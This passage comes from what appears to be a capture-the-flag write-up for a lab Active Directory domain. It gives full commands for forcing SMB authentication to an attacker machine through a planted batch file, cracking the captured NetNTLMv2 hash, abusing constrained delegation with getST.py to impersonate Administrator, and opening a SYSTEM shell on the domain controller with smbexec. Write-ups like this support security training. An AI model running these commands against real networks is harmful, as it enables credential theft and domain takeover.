export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

If an old or incorrect Kerberos cache causes problems, clear it:

```
unset KRB5CCNAME
```

Then request the ticket again and export the new cache.

---

# 27. Use the Kerberos Ticket with SMBEXEC

With the Administrator CIFS ticket available:

```
smbexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

The important options are:

```
-k
```

Use Kerberos authentication.

```
-no-pass
```

Don't ask for a password.

Instead, the Kerberos credential cache is used.

---

# 28. Verify the Shell

Once inside the SMBEXEC shell:

```
whoami
```

The result was:

```
nt authority\system
```

This confirmed that the remote execution context was:

```
NT AUTHORITY\SYSTEM
```

At this point, the intended privilege escalation/lateral movement chain was complete.


---

# 29. Access the Administrator Desktop

One important detail with `smbexec` is that its shell doesn't behave like a normal interactive CMD shell.

For example:

```
cd C:\Users\Administrator\Desktop
```

returned:

```
[-] You can't CD under SMBEXEC. Use full paths.
```

Therefore, I used absolute paths.

First:

```
dir C:\Users\Administrator\Desktop
```

The directory contained:

```
EC2 Feedback.website
EC2 Microsoft Windows Guide.website
flag.txt
```

---

# 30. Retrieve the Flag

I read the file directly:

```
type C:\Users\Administrator\Desktop\flag.txt
```

The flag was:

```
***{REDACTED}
```


---

# 31. Final Attack Chain

The complete attack was:

```
1. Nmap
   ↓
2. SMB enumeration
   ↓
3. Find writable IT-Shared
   ↓
4. Discover automated svc.scanner processing
   ↓
5. Create test.bat
   ↓
6. Force SMB authentication to AttackBox
   ↓
7. Capture svc.scanner NetNTLMv2
   ↓
8. Crack hash with Hashcat
   ↓
9. Authenticate as svc.scanner
   ↓
10. Enumerate AD
   ↓
11. Find constrained delegation
   ↓
12. Confirm cifs/DC01 delegation
   ↓
13. getST.py
   ↓
14. S4U2Self
   ↓
15. S4U2Proxy
   ↓
16. Impersonate Administrator
   ↓
17. Obtain CIFS Kerberos ticket
   ↓
18. smbexec -k -no-pass
   ↓
19. NT AUTHORITY\SYSTEM
   ↓
20. Read Administrator Desktop
   ↓
21. Flag
```

---

# 32. AttackBox Command Sequence

This is the **condensed sequence I would keep in the actual TryHackMe write-up**, using the commands from the successful method.

### Recon

```
nmap -sC -sV -T4 10.49.135.182
```

### SMB enumeration

```
smbclient -L //10.49.135.182 -N
```

```
smbclient //10.49.135.182/IT-Shared -N
```

### Create payload

```
nano test.bat
```

```
@echo off
dir \\10.49.114.223\share > nul 2>&1
```

### Check SMB port if necessary

```
ss -ltnp | grep ':445'
```

```
sudo lsof -iTCP:445 -sTCP:LISTEN
```

### Start SMB server

```
sudo smbserver.py -smb2support share .
```

### Upload payload

Inside `smbclient`:

```
put test.bat
```

### Crack captured hash

```
nano hash.txt
```

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

### Verify credentials

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}'
```

### Configure hostname resolution

```
nano /etc/hosts
```

Add:

```
10.49.135.182 DC01.ctf.local ctf.local DC01
```

### Verify

```
getent hosts DC01.ctf.local
```

```
nc -vz DC01.ctf.local 88
```

```
nc -vz DC01.ctf.local 389
```

### SMB enumeration

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--shares
```

```
smbclient -L //10.49.135.182 \
-U 'ctf.local/svc.scanner%{REDACTED}'
```

### WinRM check

```
nxc winrm 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}'
```

### AD enumeration

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--users
```

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--groups
```

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--pass-pol
```

```
nxc smb 10.49.135.182 \
-d ctf.local \
-u 'svc.scanner' \
-p '{REDACTED}' \
--rid-brute
```

### Find delegation

```
impacket.findDelegation \
ctf.local/svc.scanner:'{REDACTED}' \
-dc-ip 10.49.135.182
```

### Direct LDAP verification

```
ldapsearch -x \
-H ldap://DC01.ctf.local \
-D 'svc.scanner@ctf.local' \
-w '{REDACTED}' \
-b 'DC=ctf,DC=local' \
'(sAMAccountName=svc.scanner)' \
sAMAccountName \
servicePrincipalName \
msDS-AllowedToDelegateTo \
userAccountControl
```

### Request Administrator ticket

```
getST.py \
-spn cifs/DC01.ctf.local \
-impersonate Administrator \
-dc-ip 10.49.135.182 \
ctf.local/svc.scanner:'{REDACTED}'
```

### Set ticket

```
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

If necessary:

```
unset KRB5CCNAME
```

### SMBEXEC

```
smbexec.py \
-k \
-no-pass \
ctf.local/Administrator@DC01.ctf.local
```

### Verify SYSTEM

```
whoami
```

### Find flag

```
dir C:\Users\Administrator\Desktop
```

### Read flag

```
type C:\Users\Administrator\Desktop\flag.txt
```

---

# 33. Key Lessons

### 1. Writable shares can be dangerous

A seemingly ordinary shared folder can become an attack primitive when an automated service processes files placed there.

### 2. Service accounts are important attack targets

`svc.scanner` wasn't an administrator, but compromising it provided an entry point into the Kerberos delegation configuration.

### 3. NetNTLMv2 is not the same as the plaintext password

The captured authentication was a challenge-response. Hashcat was used to recover the password offline.

### 4. Always enumerate delegation

Once authenticated to an AD environment, delegation should be one of the things to investigate.

The command:

```
impacket.findDelegation ...
```

was particularly useful.

### 5. Know the difference between S4U2Self and S4U2Proxy

```
S4U2Self
    ↓
Obtain a ticket representing another user

S4U2Proxy
    ↓
Use that delegated identity to obtain a ticket
for an allowed service
```

In this lab:

```
Administrator
      ↓
cifs/DC01.ctf.local
```

### 6. Kerberos uses names heavily

The `/etc/hosts` entry:

```
10.49.135.182 DC01.ctf.local ctf.local DC01
```

was important because Kerberos and the Impacket tools needed to correctly resolve the DC's hostname.

### 7. SMBEXEC doesn't behave like a normal shell

With:

```
smbexec.py -k -no-pass ...
```

commands should use absolute paths rather than relying on `cd`.

For example:

```
type C:\Users\Administrator\Desktop\flag.txt
```

instead of:

```
cd C:\Users\Administrator\Desktop
type flag.txt
```

---

# Final Result

**Target:** `10.49.135.182`  
**Domain:** `ctf.local`  
**Compromised account:** `svc.scanner`  
**Delegated service:** `cifs/DC01.ctf.local`  
**Impersonated account:** `Administrator`  
**Final context:** `NT AUTHORITY\SYSTEM`

**Flag:**

```
***{REDACTED}
```